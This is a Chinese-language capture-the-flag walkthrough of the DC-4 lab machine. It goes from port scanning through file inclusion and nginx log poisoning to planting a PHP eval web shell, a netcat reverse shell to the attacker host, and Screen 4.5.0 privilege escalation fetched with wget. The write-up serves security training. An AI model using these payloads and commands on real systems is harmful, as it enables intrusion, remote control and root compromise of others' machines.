 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-4（192.168.1.13）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.13
```

![image-20220111145130914.png](_img\06-靶场实践/1652256425733-57ef87bc-e21c-43c6-b83e-380936cec577.png)

开放了80端口HTTP服务


## 目录扫描

![image-20220111145325177.png](_img\06-靶场实践/1652256433512-75de8e9d-7b49-4793-bb94-612948f3f679.png)

找到一个特殊的页面footer.php内容会随着页面刷新而改变

![image-20220111145505984.png](_img\06-靶场实践/1652256437596-7bc83e99-b9f4-41d0-8702-43269fd3f11e.png)

![image-20220111145513169.png](_img\06-靶场实践/1652256440467-d0f2e0c2-ab29-4542-b257-ec803bbfc953.png)


## 漏洞发现

在浏览80端口HTTP服务的时候发现在Contact页面留言提交后显示的页面底部内容会随着页面的刷新而改变

![image-20220111145734632.png](_img\06-靶场实践/1652256443937-93531657-d2f7-4a90-85bb-e2b3cd967332.png)

![image-20220111145750479.png](_img\06-靶场实践/1652256447546-91dfc7f0-3411-4a6d-bcfe-0bb870988201.png)

这种情况与我们前面发现的footer.php页面相同，想到可能是hankyou.php页面包含了footer.php页面，存在文件包含漏洞

访问/etc/passwd文件测试是否存在文件包含漏洞

![image-20220111150248872.png](_img\06-靶场实践/1652256451650-aa002bfb-6b9d-4a37-b9e5-9bfda52321d8.png)

存在文件包含漏洞


## 漏洞利用

通过前面的端口扫描我们可以知道靶机的环境是使用nginx搭建的，而nginx在网站上的每一步操作都将会被写入日志文件log(/var/log/nginx/access.log)内，因此我们可以通过log来拿 shell

使用burpsuite抓包修改请求，写入phpinfo()测试是否可以包含成功

![image-20220111151336326.png](_img\06-靶场实践/1652256455801-7c57aaee-b94f-46cd-b1ec-1edd4243f957.png)

成功

![image-20220111151619526.png](_img\06-靶场实践/1652256459471-da82337b-f449-4e78-9541-194326d6bda2.png)

上传一句话木马

```
<?php @eval($_POST['XMTX']);?>
```

![image-20220111153318647.png](_img\06-靶场实践/1652256463083-d12e17a2-9ef4-4e59-84b8-3b2b53bb5aaa.png)

使用蚁剑链接

![image-20220111153522272.png](_img\06-靶场实践/1652256466733-d3443dc5-fa4c-443b-b7d8-be675fb96862.png)


## 反弹shell

创建监听

```
nc -vnlp 4444
```

![image-20220111153832261.png](_img\06-靶场实践/1652256471287-7b6f529c-54fd-42dd-9f76-057ce1883dcd.png)

使用nc反弹shell到攻击机

```
nc 192.168.1.28 4444 -e /bin/bash
```

![image-20220111153927518.png](_img\06-靶场实践/1652256474597-7198f713-9f6d-4ff5-904e-23c32ee6f62b.png)

成功反弹shell

![image-20220111154045297.png](_img\06-靶场实践/1652256477935-2b9c9986-02f8-4cfe-a8a0-2214daf91c40.png)

查找具有root权限的命令

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220111154138860.png](_img\06-靶场实践/1652256481763-69566178-3f58-4984-ad53-9e5bff5ce1f5.png)

可以看到存在screen 4.5.0，在互漏洞库中找到[Screen 4.5.0 存在本地权限提升漏洞](https://www.exploit-db.com/exploits/41154)

![image-20220111154558491.png](_img\06-靶场实践/1652256485066-81eed817-acd5-4d21-98db-858209567dd8.png)


## 提权

**说明：在这一部分网上的很多教程都是使用kali上的提权脚本，然后说脚本有问题将提权脚本拆分为三份进行提权，DC官网也是说脚本有问题，千篇一律。在这里我是使用 **[**https://www.exploit-db.com**](https://www.exploit-db.com)** 上的提权脚本，并没有什么问题。之后我对比两个脚本，内容都是一样的，我又搭建新靶场使用kali上的提权脚本也能成功提权。凡事要多思考，照着别人的步骤来对自己有什么提升呢？**

将脚本文件下载到攻击机，通过vi查看发现格式为windows的dos格式<br />![image-20220111162250058.png](_img\06-靶场实践/1652256562234-b97309dd-3030-4596-a4f4-9ce4191bc5bf.png)


将脚本文件转换为linux格式
```
dos2unix 41154.sh
```
![image-20220111162330818.png](_img\06-靶场实践/1652256566052-4d1af8c0-b1c7-4446-a294-31ca77b29e31.png)

攻击机开启HTTP服务
```
python3 -m http.server
```
![image-20220111160846214.png](_img\06-靶场实践/1652256489619-cba09f93-8139-4f81-a509-90b2b3695f47.png)


下载脚本到靶机的tmp目录下（因为tmp权限为777）（也可以使用前面的蚁剑上传提权脚本）
```
wget http://192.168.1.28:8000/41154.sh
```
![image-20220111161013441.png](_img\06-靶场实践/1652256538282-13be2f18-b8c7-44af-8abe-fe5a54b6fb29.png)


赋予脚本执行权限并执行，成功得到root权限<br />![image-20220111162553225.png](_img\06-靶场实践/1652256568936-b35f4e40-17b9-47ff-a693-49efe2bdcadb.png)


## final-flag

在root根目录下找到flag文件

![image-20220111162705093.png](_img\06-靶场实践/1652256574804-5a21f992-a662-4576-8cad-cb565482766b.png)
